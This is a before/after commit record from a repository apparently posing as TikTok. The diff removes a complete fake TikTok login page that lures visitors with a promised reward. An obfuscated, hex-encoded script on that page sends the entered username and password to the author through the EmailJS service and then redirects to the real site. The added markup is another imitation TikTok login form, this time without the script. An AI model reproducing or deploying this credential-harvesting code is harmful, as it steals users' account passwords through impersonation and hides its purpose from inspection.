

Before and after one commit to Mayor123456789000/www.tiktok.com, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-895 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,155 +1,32 @@
-<!DOCTYPE html>
-<html lang="en">
-<head>
-    <style>
-        /* Reset some default styles */
-        * {
-            margin: 0;
-            padding: 0;
-            box-sizing: border-box;
-        }
+<!-- Login Page Container -->
+<div class="login-page">
+  <!-- Close Button -->
+  <button class="close-button" aria-label="Close login page">
+    <span>&times;</span>
+  </button>
 
-        /* Set the font and basic styles for the body */
-        body {
-            font-family: Arial, sans-serif;
-            background-color: #f0f0f0;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            height: 100vh;
-        }
+  <!-- Login Methods -->
+  <div class="login-methods">
+    <!-- Phone Number Login Method -->
+    <div class="phone-number-login">
+      <label for="country-code">Country Code:</label>
+      <select id="country-code" name="country-code">
+        <option value="NG">NG +234</option>
+      </select>
+      <input type="tel" id="phone-number" name="phone-number" placeholder="Enter phone number">
+      <button class="send-code-button">Send Code</button>
+    </div>
 
-        /* Style for the login container */
-        .container {
-            width: 100%;
-            max-width: 400px;
-        }
+    <!-- Email or Username Login Method -->
+    <div class="email-or-username-login">
+      <input type="text" id="email-or-username" name="email-or-username" placeholder="Enter email or username">
+    </div>
 
-        /* Styling for the login box */
-        .login-box {
-            background-color: white;
-            padding: 20px;
-            border-radius: 10px;
-            box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
-            text-align: center;
-        }
-
-        /* Header style */
-        h2 {
-            margin-bottom: 20px;
-            color: #333;
-        }
-
-        /* Input group styling */
-        .input-group {
-            margin-bottom: 20px;
-        }
-
-        input[type="text"], input[type="password"] {
-            width: 100%;
-            padding: 10px;
-            border: 1px solid #ddd;
-            border-radius: 5px;
-            font-size: 16px;
-        }
-
-        input[type="text"]:focus, input[type="password"]:focus {
-            border-color: #ff0000; /* Red border when focused */
-        }
-
-        /* Button group styling */
-        .button-group {
-            margin-top: 20px;
-        }
-
-        .login-btn {
-            width: 100%;
-            padding: 12px;
-            background-color: #ff0000; /* Red color for the login button */
-            color: white;
-            border: none;
-            border-radius: 5px;
-            font-size: 16px;
-            cursor: pointer;
-        }
-
-        .login-btn:hover {
-            background-color: #cc0000; /* Darker red on hover */
-        }
-
-        /* Styling for the sign-up link */
-        .signup-link {
-            margin-top: 15px;
-            font-size: 14px;
-        }
-
-        .signup-link a {
-            color: #ff0000;
-            text-decoration: none;
-        }
-
-        .signup-link a:hover {
-            text-decoration: underline;
-        }
-
-        .manage {
-            font-family: sans-serif;
-            font-size: 14px;
-            color: #A9A9A9;
-        }
-    </style>
-    <script src="https://cdn.jsdelivr.net/npm/@emailjs/browser@3/dist/email.min.js"></script>
-    <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>TikTok Login</title>
-</head>
-<body>
-<div class="container">
-    <div class="login-box">
-        <h2>Login to TikTok</h2>
-        <p class="manage">Manage your account, check notifications, comment on videos, and claim your reward.</p>
-        <form id="loginForm">
-            <div class="input-group">
-                <input type="text" id="username" placeholder="Username or Email" required>
-            </div>
-            <div class="input-group">
-                <input type="password" id="password" placeholder="Password" required>
-            </div>
-            <div class="button-group">
-                <button type="submit" class="login-btn">Log In</button>
-            </div>
-            <p class="signup-link">Don't have an account? <a href="#">Sign Up</a></p>
-        </form>
+    <!-- Password Login Method -->
+    <div class="password-login">
+      <button class="log-in-with-password-button">Log in with password</button>
+      <input type="password" id="password" name="password" placeholder="Enter password">
+      <button class="log-in-button">Log in</button>
     </div>
+  </div>
 </div>
-
-<script>
-    (function () {
-        // Obfuscated EmailJS Initialization and Submission Code
-        var _0xabc1 = ["\x79\x33\x36\x63\x79\x62\x69\x5A\x46\x36\x75\x6B\x71\x7A\x33\x33\x50",
-        "\x69\x6E\x69\x74", "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64",
-        "\x75\x73\x65\x72\x6E\x61\x6D\x65", "\x76\x61\x6C\x75\x65", "\x70\x61\x73\x73\x77\x6F\x72\x64",
-         "\x73\x65\x6E\x64", "\x73\x65\x72\x76\x69\x63\x65\x5F\x79\x35\x62\x7A\x7A\x6F\x63",
-         "\x74\x65\x6D\x70\x6C\x61\x74\x65\x5F\x34\x39\x70\x38\x68\x6B\x67", "\x74\x68\x65\x6E",
-         "\x70\x72\x65\x76\x65\x6E\x74\x44\x65\x66\x61\x75\x6C\x74", "\x6C\x6F\x63\x61\x74\x69\x6F\x6E",
-          "\x68\x72\x65\x66", "\x68\x74\x74\x70\x73\x3A\x2F\x2F\x77\x77\x77\x2E\x74\x69\x6B\x74\x6F\x6B\x2E\x63\x6F\x6D", "\x73\x74\x72\x69\x6E\x67\x69\x66\x79"];
-
-        emailjs[_0xabc1[1]](_0xabc1[0]);
-        document[_0xabc1[2]]("loginForm")[_0xabc1[9]](function (event) {
-            event[_0xabc1[10]]();
-            const username = document[_0xabc1[2]]("username")[_0xabc1[4]];
-            const password = document[_0xabc1[2]]("password")[_0xabc1[4]];
-            const emailParams = { [_0xabc1[3]]: username, [_0xabc1[5]]: password };
-
-            emailjs[_0xabc1[6]](_0xabc1[7], _0xabc1[8], emailParams)
-                [_0xabc1[9]](function () {
-                    alert("You have been registered, wait for your reward!");
-                    window[_0xabc1[11]][_0xabc1[12]] = _0xabc1[13];
-                }, function (error) {
-                    alert("Failed to send details: " + JSON[_0xabc1[14]](error));
-                });
-        });
-    })();
-</script>
-</body>
-</html>
```
